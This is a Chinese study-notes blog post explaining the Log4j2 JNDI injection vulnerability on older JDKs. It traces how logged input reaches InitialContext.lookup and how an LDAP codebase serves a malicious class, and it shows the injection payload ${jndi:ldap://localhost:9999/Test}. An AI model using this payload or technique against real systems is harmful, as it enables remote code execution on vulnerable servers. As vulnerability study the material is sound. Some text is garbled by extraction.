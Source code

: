 ```yaml
---
title: log4j2漏洞学习记录
date: 2022-09-23 14:15:14
tags:
      - log4j2
categories: java
---
```


# lo4gj2漏洞简单学习记录

log4j2和log4j简单的小区别

>- Log4j2分为2个jar包，一个是接口 log4j-api-版 本 号 . j a r   ， 一 个 是 具 体 实 现   l o g 4 j − c o r e − {版本号}.jar ，一个是具体实现 log4j-core-版本号.jar ，一个是具体实现 log4j−core−{版本号}.jar 。Log4j只有一个jar包 log4j-${版本号}.jar 。
>
>- Log4j2的版本号目前均为2.x。Log4j的版本号均为1.x。
>
>- Log4j2的package名称前缀为 org.[apache](https://so.csdn.net/so/search?q=apache&spm=1001.2101.3001.7020).logging.log4j 。Log4j的package名称前缀为 org.apache.log4j 。

## jdk低版本

在低版本jdk中,可以通过ldap和rmi服务构造远程恶意类来让其执行恶意代码

1、首先攻击者遭到存在风险的接口（接口会将前端输入直接通过日志打印出来），然后向该接口发送攻击内容：${jndi:ldap://localhost:9999/Test}。

2、被攻击服务器接收到该内容后，通过Logj42工具将其作为日志打印。

源码：org.apache.logging.slf4j.Log4jLogger.debug(...)/info(...)/error(...)等方法

            > org.apache.logging.log4j.core.config.LoggerConfig.log(...)
    
                  > AbstractOutputStreamAppender.append(final LogEvent event)

3、此时Log4j2会解析${}，读取出其中的内容。判断其为Ldap实现的JNDI。于是调用Java底层的Lookup方法，尝试完成Ldap的Lookup操作。

源码：StrSubstitutor.substitute(...) --解析出${}中的内容：jndi:ldap://localhost:9999/Test

                > StrSubstitutor.resolveVariable(...) --处理解析出的内容，执行lookup
    
                > Interpolator.lookup(...) --根据jndi找到jndi的处理类
    
                        > JndiLookup.lookup(...)
    
                        > JndiManager.lookup(...)
    
                                > java.naming.InitialContext.lookup(...) --调用Java底层的Lookup方法
后面调用的就是`InitialContext.lookup方法`从而执行了恶意代码

##### 低版本攻击原理

通过上面低版本的原理分析可知，我们根据在Ldap构造了javaFactoryLocation指向Codebase，告诉客户端需要从远端Codebase去获取需要的javaFactory类。获取到之后，然后使其使用本地的类加载器加载远程恶意的javaFactory类的，然后其在加载的过程中执行恶意的static代码块，从而实现攻击。

### jdk对于lookup方法的修复

